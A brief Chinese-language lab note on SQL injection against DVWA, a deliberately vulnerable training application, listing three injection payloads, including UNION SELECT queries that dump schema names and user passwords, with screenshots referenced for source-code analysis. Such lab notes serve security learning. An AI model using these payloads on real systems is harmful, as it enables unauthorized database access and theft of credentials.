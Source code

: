 # 網站漏洞測試(2).Sql injection


## 正常功能
![DVWA_SQLi_1.png](DVWA_SQLi_1.png)

## SQLi攻擊  == > 
- 1' or '111'='111
- %' UNION SELECT table_name,column_name FROM information_schema.columns
- %' UNION SELECT user, password FROM users

![DVWA_SQLi_2.png](DVWA_SQLi_2.png)

## 原始碼分析 1
![DVWA_SQLi_3.png](DVWA_SQLi_3.png)

## 原始碼分析 2
![DVWA_SQLi_4.png](DVWA_SQLi_4.png)
